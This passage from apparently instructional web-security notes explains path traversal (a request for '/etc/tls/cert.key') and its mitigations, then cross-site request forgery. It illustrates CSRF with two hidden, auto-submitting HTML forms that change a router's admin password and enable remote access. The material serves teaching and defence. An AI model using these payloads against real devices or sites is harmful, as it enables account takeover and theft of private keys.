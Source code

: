What if the user sends a POST request asking for "file=/etc/tls/cert.key".
Your app goes ahead and opens the file and sends it along. And the attacker
has your HTTPS private key and can impersonate your server.

The two approaches to mitigate this issue are:

1. Indirection. Send "file_id=7" instead, and look up the name of the file
   in the legal_downloads table in your database.
2. Sanitize the input. Verifiy that the input has no slashes, or dots, or
   tildes in it before opening the file. This works if you catch every bad
   case, but that can be hard.

### Cross Site Request Forgery (XSRF) Attacks

 - Users in web apps are generally authenticated by session cookies.
 - Any time a user with an appropriate cookie in their browser makes
   a request to the server, they're authenticated by the cookie.
 - Forms on web sites are submitted as a HTTP POST request.
 - Nothing stops somoene from making a form on another web site that
   has an "action" attribute pointing at your server.
 - When a user submits the form on the other site, if they're already
   logged in on your site, they're an authenticated user making an
   apparently legitimate request.
 - The form doesn't have to be visible and can be triggered by JavaScript.

Example:

 - Imagine your home router can be administered from a web browser.
 - It has a form to change the admin password.
 - It has a form to enable access from the public internet.
 - The router always lives at http://192.168.1.1/
 - You visit a cat video on haxxor.fi, and those dasterdly Finnish hackers have
   a hidden form on the page: 

```
<div style="display: none;">
<form id="hax" action="http://192.168.1.1/change_admin_password" method="post">
<input type="hidden" name="new_password" value="haxxor.fi">
</form>
</div>

<script>
  $(function() { $('#hax').submit() });
</script>
```

The page inexplicably reloads. The next page has another form.

```
<div style="display: none;">
<form id="hax" action="http://192.168.1.1/allow_remote_access" method="post">
<input type="hidden" name="allow_remote_access" value="1">
</form>
</div>

<script>
  $(function() { $('#hax').submit() });
</script>
```
